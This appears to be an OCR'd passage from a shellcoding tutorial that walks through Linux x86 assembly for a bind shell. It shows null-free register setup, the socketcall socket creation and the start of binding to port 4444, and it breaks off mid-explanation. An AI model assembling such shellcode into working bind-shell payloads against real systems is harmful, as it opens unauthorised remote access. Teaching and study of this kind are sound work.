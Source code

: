     EAX - 0x66 for socketcall
    
    EBX - 1 for socket
    
    ECX - address on stack with args 2, 1 0
```asm
; clear registers while avoiding nulls
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

; 0x66 for socketcall
mov al, 0x66
;0x1 for socket
mov bl, 0x1
```
Setting up ECX - our *args parameter - we can use the stack to push the values, then make ecx equal to the stack pointer (esp) so that we have the address for the args stored in ecx.  Note that when using the stack for args in this way, we have to push them in the reverse order since the stack grows down (towards 0).
```asm
; ecx = 0
push ecx
; ebx = 1
push ebx
push 0x2

; point ecx to the stack for args
mov ecx, esp
int 0x80
```
The return value will be sockfd that is stored in EAX.  Since EAX is used for our socketcall argument, we need to move it to a register for safe keeping.  I have decided to use edi.
```asm
mov edi, eax
```
### 2 Bind the socket to an IP and port
Now that we have sockfd, it's time to bind the socket.

As we created earlier, our reference is:

bind(sockfd, (struct sockaddr *)&sock_addr, sizeof(sock_addr));

Just for my own understanding, I'll write out the socketcall format with any structs or objects in {}.

socketcall( SYS_BIND, {sockfd, {AF_INET, 4444, INADDR_ANY}, 0x10} );

EAX - 0x66 - socketcall

EBX - 0x2 - SYS_BIND

ECX - pointing to stack:

STACK: edi (sockfd), point to struct, 0x10, struct{0x2, 0x115C, 0x00000000}
